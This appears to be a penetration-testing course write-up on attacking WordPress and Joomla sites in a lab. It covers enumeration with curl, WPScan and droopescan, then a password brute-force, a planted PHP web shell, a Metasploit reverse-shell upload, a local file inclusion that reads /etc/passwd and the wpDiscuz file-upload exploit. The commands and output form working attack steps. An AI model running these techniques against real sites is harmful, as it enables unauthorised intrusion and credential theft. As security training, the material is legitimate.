






# Attacking CMS

## WordPress - Discovery & Enum

### Discovery/Footprinting

A quick way to identify a WordPress site is browsing to the ```/robots.txt``` file. A typical robots.txt on a WordPress installation may look like:

```bash
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://inlanefreight.local/wp-sitemap.xml
```

Here the presence of the ```/wp-admin``` and ```/wp-content``` dirs would be a dead giveaway that you are dealing with WordPress. Typically attempting to browse to the wp-admin dir will redirect you to the ```wp-login.php``` page. This is the login portal to the WordPress instance's back-end.

WordPress stores its plugins in the ```wp-content/plugins``` dir. This folder is helpful to enumerate vulnerable plugins. Themes are stored in the ```wp-content/themes``` dir. These files should be carefully enumerated as they may lead to RCE.

There are five types of users on a standard WordPress installation.

1. **Administrator**: This user has access to administrative features within the website. This includes adding and deleting users and posts, as well as editing source code.
2. **Editor**: An editor can publish and manage ports, including the posts of other users.
3. **Author**: They can publish and manage their own posts.
4. **Contributor**: These users can write and manage their own posts but cannot publish them.
5. **Subscriber**: These are standard users who can browse posts and edit their profiles.

Getting access to an administrator is usually sufficient to obtain code execution on the server. Editors and authors might have access to certain vulnerable plugins, which normal users don't.

### Enumeration

Another quick way to identify a WordPress site is by looking at the page source. Viewing the page with cURL and grepping for WordPress can help you confirm that WordPress is in use and footprint the version number, which you should note down for later. You can enumerate WordPress using a variety of manual and automated tactics.

```bash
d41y@htb[/htb]$ curl -s http://blog.inlanefreight.local | grep WordPress

<meta name="generator" content="WordPress 5.8" /
```

Browsing the site and persuing the page source will give you hints to the theme in use, plugins installed, and even usernames if author names are published with posts. You should spend some time manually browsing the site and looking through the page source for each page, grepping for the ```wp-content``` dir, themes and plugins, and begin building a list of interesting data points.

Looking at the page source, you can see that the Business Gravity theme is in use. You can go further and attempt to fingerprint the theme version number and look for any known vulns that affect it.

```bash
d41y@htb[/htb]$ curl -s http://blog.inlanefreight.local/ | grep themes

<link rel='stylesheet' id='bootstrap-css'  href='http://blog.inlanefreight.local/wp-content/themes/business-gravity/assets/vendors/bootstrap/css/bootstrap.min.css' type='text/css' media='all' />
```

Next, look at which plugins you can uncover.

```bash
d41y@htb[/htb]$ curl -s http://blog.inlanefreight.local/ | grep plugins

<link rel='stylesheet' id='contact-form-7-css'  href='http://blog.inlanefreight.local/wp-content/plugins/contact-form-7/includes/css/styles.css?ver=5.4.2' type='text/css' media='all' />
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/subscriber.js?ver=5.8' id='subscriber-js-js'></script>
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/jquery.validationEngine-en.js?ver=5.8' id='validation-engine-en-js'></script>
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/jquery.validationEngine.js?ver=5.8' id='validation-engine-js'></script>
		<link rel='stylesheet' id='mm_frontend-css'  href='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/css/mm_frontend.css?ver=5.8' type='text/css' media='all' />
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/contact-form-7/includes/js/index.js?ver=5.4.2' id='contact-form-7-js'></script>
```

From the output above, you know that the Contact Form 7 and mail-masta plugins are installed. The next step would be enumerating the versions.

Browsing to ```http://blog.inlanefreight.local/wp-content/plugins/mail-masta/``` shows you that directory listing is enabled and that a ```readme.txt``` file is present. These files are often very helpful in fingerprinting version numbers. From the readme, it appears that version 1.0.0 of the plugin is installed, which suffers from a LFI vuln.

Dig around a bit more. Checking the page source of another page, you can see that the wpDiscuz plugin is installed, and it appears to be version 7.0.4.

```bash
d41y@htb[/htb]$ curl -s http://blog.inlanefreight.local/?p=1 | grep plugins

<link rel='stylesheet' id='contact-form-7-css'  href='http://blog.inlanefreight.local/wp-content/plugins/contact-form-7/includes/css/styles.css?ver=5.4.2' type='text/css' media='all' />
<link rel='stylesheet' id='wpdiscuz-frontend-css-css'  href='http://blog.inlanefreight.local/wp-content/plugins/wpdiscuz/themes/default/style.css?ver=7.0.4' type='text/css' media='all' />
```

A quick search for this plugin version shows an unauthenticated RCE vuln from June of 2021.

### Enumerating Users

You can do some manual enumeration of users as well.

A valid username and an invalid password results in the following message:



However, an invalid username returns that the user was not found.



This makes WordPress vulnerable to username enumeration, which can be used to obtain a list of potential usernames.

### WPScan

... is an automated WordPress scanner and enumeration tool. It determines if the various themes and plugins used by a blog are outdated or vulnerable.

WPScan is also able to pull in vulnerability information from external sources. You can obtain an API token from WPVulnDB, which is used by WPScan to scan for PoC and reports. The free plan allows up to 75 requests per day. To use the WPVulnDB database, just create an account and copy the API token from the users page. This token can then be supplied to wpscan using the ```--api-token``` parameter.

The ```--enumerate``` flag is used to enumerate various components of the WordPress application, such as plugins, themes, and users. By default, WPScan enumerates vulnerable plugins, themes, users, media, and backups. However, specific arguments can be supplied to restrict enumeration to specific components. For example, all plugins can be enumerated using the arguments ```--enumerate ap```.

```bash
d41y@htb[/htb]$ sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>

<SNIP>

[+] URL: http://blog.inlanefreight.local/ [10.129.42.195]
[+] Started: Thu Sep 16 23:11:43 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://blog.inlanefreight.local/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://blog.inlanefreight.local/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://blog.inlanefreight.local/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress version 5.8 identified (Insecure, released on 2021-07-20).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blog.inlanefreight.local/?feed=rss2, <generator>https://wordpress.org/?v=5.8</generator>
 |  - http://blog.inlanefreight.local/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.8</generator>
 |
 | [!] 3 vulnerabilities identified:
 |
 | [!] Title: WordPress 5.4 to 5.8 - Data Exposure via REST API
 |     Fixed in: 5.8.1
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/38dd7e87-9a22-48e2-bab1-dc79448ecdfb
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-39200
 |      - https://wordpress.org/news/2021/09/wordpress-5-8-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/ca4765c62c65acb732b574a6761bf5fd84595706
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-m9hc-7v5q-x8q5
 |
 | [!] Title: WordPress 5.4 to 5.8 - Authenticated XSS in Block Editor
 |     Fixed in: 5.8.1
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/5b754676-20f5-4478-8fd3-6bc383145811
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-39201
 |      - https://wordpress.org/news/2021/09/wordpress-5-8-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-wh69-25hr-h94v
 |
 | [!] Title: WordPress 5.4 to 5.8 -  Lodash Library Update
 |     Fixed in: 5.8.1
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/5d6789db-e320-494b-81bb-e678674f4199
 |      - https://wordpress.org/news/2021/09/wordpress-5-8-1-security-and-maintenance-release/
 |      - https://github.com/lodash/lodash/wiki/Changelog
 |      - https://github.com/WordPress/wordpress-develop/commit/fb7ecd92acef6c813c1fde6d9d24a21e02340689

[+] WordPress theme in use: transport-gravity
 | Location: http://blog.inlanefreight.local/wp-content/themes/transport-gravity/
 | Latest Version: 1.0.1 (up to date)
 | Last Updated: 2020-08-02T00:00:00.000Z
 | Readme: http://blog.inlanefreight.local/wp-content/themes/transport-gravity/readme.txt
 | [!] Directory listing is enabled
 | Style URL: http://blog.inlanefreight.local/wp-content/themes/transport-gravity/style.css
 | Style Name: Transport Gravity
 | Style URI: https://keonthemes.com/downloads/transport-gravity/
 | Description: Transport Gravity is an enhanced child theme of Business Gravity. Transport Gravity is made for tran...
 | Author: Keon Themes
 | Author URI: https://keonthemes.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://blog.inlanefreight.local/wp-content/themes/transport-gravity/style.css, Match: 'Version: 1.0.1'

[+] Enumerating Vulnerable Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] mail-masta
 | Location: http://blog.inlanefreight.local/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: Mail Masta <= 1.0 - Unauthenticated Local File Inclusion (LFI)

<SNIP>

| [!] Title: Mail Masta 1.0 - Multiple SQL Injection
      
 <SNIP
 
 | Version: 1.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blog.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://blog.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt

<SNIP>

[i] User(s) Identified:

[+] by:
									admin
 | Found By: Author Posts - Display Name (Passive Detection)

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] john
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

WPScan uses various passive and active methods to determine versions and vulns, as shown in the report above. The default number of threads used is 5. However, this value can be changed using the ```-t``` flag.

This scan helped you confirm some of the things you uncovered from manual enumeration, showed you that the theme you identified was not exactly correct, uncovered another username, and showed that automated enumeration on its own is often not enough. WPScan provides information about known vulns. The report output also contains URLs to PoCs, which would allow you to exploit these vulns.

## WordPress - Attack

### Login Bruteforce

WPScan can be used to brute force usernames and passwords. The scan report in the previous section returned two users registered on the website. The tool uses two kinds of login brute force attacks, xmlrpc and wp-login. The wp-login method will attempt to brute force the standard WordPress login page, while the xmlrpc method uses WordPress API to make login attempts through ```/xmlrpc.php```. The xmlrpc method is preferred as it's faster.

```bash
d41y@htb[/htb]$ sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local

[+] URL: http://blog.inlanefreight.local/ [10.129.42.195]
[+] Started: Wed Aug 25 11:56:23 2021

<SNIP>

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - john / firebird1                                                                                           
Trying john / bettyboop Time: 00:00:13 <                                      > (660 / 14345052)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: john, Password: firebird1

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Wed Aug 25 11:56:46 2021
[+] Requests Done: 799
[+] Cached Requests: 39
[+] Data Sent: 373.152 KB
[+] Data Received: 448.799 KB
[+] Memory used: 221 MB

[+] Elapsed time: 00:00:23
```

The ```--password-attack``` flag is used to supply the attack. The ```-U``` argument takes in a list of users or a file containing user names. This applies to the ```-P``` passwords option as well. The ```-t``` flag is the number of threads which you can adjust up or down depending. WPScan was able to find valid credentials for one, ```john:firebird1```.

### Code Execution

With administrative access to WordPress, you can modify the PHP source code to execute system commands. Log in to WordPress with the credentials for the john user, which will redirect you to the admin panel. Click on Appearance on the side panel and select Theme Editor. This page will let you edit the PHP source code directly. An inactive theme can be selected to avoid corrupting the primary theme. You already know that the active theme is Transport Gravity. An alternate theme such as Twenty Nineteen can be chosen instead.

Click on Select after selecting the theme, and you can edit an uncommon page such as 404.php to add a web shell.

```php
system($_GET[0]);
```

The code above should let you execute commands via the GET parameter 0. You add this single line to the file just below the comments to avoid too much modification of the contents.



Click on Update File at the bottom to save. You know that WordPress themes are located at ```/wp-content/themes/<theme name>```. You can interact with the web shell via the browser or using cURL. As always, you can then utilize this access to gain an interactive reverse shell and begin exploring the target.

```bash
d41y@htb[/htb]$ curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The wp_admin_shell_upload module from Metasploit can be used to upload a shell and execute it automatically.

The module uploads a malicious plugin and then uses it to execute a PHP Meterpreter shell. You first need to start the necessary options.

```bash
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options 

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   PASSWORD   firebird1                 yes       The WordPress password to authenticate with
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.42.195             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                        yes       The target port (TCP)
   SSL        false                     no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                         yes       The base path to the wordpress application
   USERNAME   john                      yes       The WordPress username to authenticate with
   VHOST      blog.inlanefreight.local  no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
```

Once you are satisfied with the setup, you can type ```exploit``` and obtain a reverse shell. From here, you could start enumerating the host sensitive data or paths for vertical/horizontal privesc and lateral movement.

```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Authenticating with WordPress using doug:jessica1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/CczIptSXlr/wCoUuUPfIO.php...
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:42816) at 2021-09-20 19:43:46 -0400
i[+] Deleted wCoUuUPfIO.php
[+] Deleted CczIptSXlr.php
[+] Deleted ../CczIptSXlr

meterpreter > getuid

Server username: www-data (33)
```

In the above example, the Metasploit module uploaded the wCoUuUPfIO.php file to the ```/wp-content/plugins``` directory. Many Metasploit modules attempt to clean up after themselves, but some fail. During an assessment, you would want to make every attempt to clean up this artifact from the client system and, regardless of whether you were able to remove it or not, you should list this artifact in your report appendices. At the very last, your report should have and appendix section that lists the following information.

- exploited systems
- compromised users
- artifacts
- changes

### Leveraging Known Vulns

Over the years, WordPress core has suffered from its fair share of vulns, but the vast majority of them can be found in plugins. According to the WordPress Vulnerability Statistics page hosted [here](https://wpscan.com/statistics), there were 23,595 vulns in the WPScan database. These vulnerabilities can be broken down as follows:

- 4% WordPress core
- 89% plugins
- 7% themes

The numbers of vulns related to WordPress has grown steadily since 2014, likely due to the sheer amount of free themes and plugins available, with more and more being added every week. For this reason, you must be extremely thorough when enumerating a WordPress site as you may find plugins with recently discovered vulns or even old, unused/forgotten plugins that no longer server a purpose on the site but can still be accessed.

#### mail-masta

The plugin mail-masta is no longer supported but has had over 2,300 downloads over the years. It's not outside the realm of possibility that you could run into this plugin during an assessment, likely installed once upon a time and forgotten. Since 2016 it has suffered an unauthenticated SQLi and a LFI.

```php
<?php 

include($_GET['pl']);
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```

As you can see, the ```pl``` parameter allows you to include a file without any type of input validation or sanitizing. Using this, you can include arbitrary files on the webserver. Exploit this to retrieve the contents of the ```/etc/passwd``` file using cURL.

```bash
d41y@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
```

#### wpDiscuz

wpDiscuz is a WordPress plugin for enhanced commenting on page posts. Based on the version number (7.0.4), [this exploit](https://www.exploit-db.com/exploits/49967) has a pretty good shot of getting you command execution. The crux of the vulnerability is a file upload bypass. wpDiscuz is intended only to allow image attachments. The file mime type functions could be bypassed, allowing an unauthenticated attacker to upload a malicious PHP file and gain remote code execution.

The exploit script takes two parameters: ```-u``` the URL and the ```-p``` the path to a valid post.

```bash
d41y@htb[/htb]$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[102476] | code:[200]
[!] Got wmuSecurity value: 5c9398fcdb
[!] Got wmuSecurity value: 1 

[+] Generating random name for Webshell...
[!] Generated webshell name: uthsdkbywoxeebg

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php&quot; 

> id

[x] Failed to execute PHP code...
```

The exploit may fail, but you can use cURL to execute commands using the uploaded web shell. You just need to append ```?cmd=``` after the .php extension to run commands which you can see in the exploit script.

```bash
d41y@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

In this example, you would want to make sure to clean up the ```uthsdkbywoxeebg-1629904090.8191.php``` file and once again list it as a testing artifact in the appendices of your report.


## Joomla - Discovery & Enum

### Disovery/Footprinting

You can often fingerprint Joomla by looking at the page source, which tells you that you are dealing with a Joomla site.

```bash
d41y@htb[/htb]$ curl -s http://dev.inlanefreight.local/ | grep Joomla

	<meta name="generator" content="Joomla! - Open Source Content Management" />


<SNIP>
```

The ```robots.txt``` file for a Joomla site will often look like this:

```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

You can also often see the telltale Joomla favicon. You can fingerprint the Joomla version if the README.txt file is present.

```bash
d41y@htb[/htb]$ curl -s http://dev.inlanefreight.local/README.txt | head -n 5

1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```

In certain Joomla installs, you may be able to fingerprint the version from JavaScript files in the ```media/system/js/``` directory or by browsing to ```administrator/manifests/files/joomla.xml```.

```bash
d41y@htb[/htb]$ curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -

<?xml version="1.0" encoding="UTF-8"?>
<extension version="3.6" type="file" method="upgrade">
  <name>files_joomla</name>
  <author>Joomla! Project</author>
  <authorEmail>admin@joomla.org</authorEmail>
  <authorUrl>www.joomla.org</authorUrl>
  <copyright>(C) 2005 - 2019 Open Source Matters. All rights reserved</copyright>
  <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
  <version>3.9.4</version>
  <creationDate>March 2019</creationDate>
  
 <SNIP>
```

The ```cache.xml``` file can help to give you the approximate version. It is located at ```plugins/system/cache/cache.xml```.

### Enumeration

Try out [droopescan](https://github.com/droope/droopescan), a plugin-based scanner that works for SilverStripe, WordPress, and Drupal with limited functionality for Joomla and Moodle.

Running a scan:

```bash
d41y@htb[/htb]$ droopescan scan joomla --url http://dev.inlanefreight.local/

[+] Possible version(s):                                                        
    3.8.10
    3.8.11
    3.8.11-rc
    3.8.12
    3.8.12-rc
    3.8.13
    3.8.7
    3.8.7-rc
    3.8.8
    3.8.8-rc
    3.8.9
    3.8.9-rc

[+] Possible interesting urls found:
    Detailed version information. - http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml
    Login page. - http://dev.inlanefreight.local/administrator/
    License file. - http://dev.inlanefreight.local/LICENSE.txt
    Version attribute contains approx version - http://dev.inlanefreight.local/plugins/system/cache/cache.xml

[+] Scan finished (0:00:01.523369 elapsed)
```

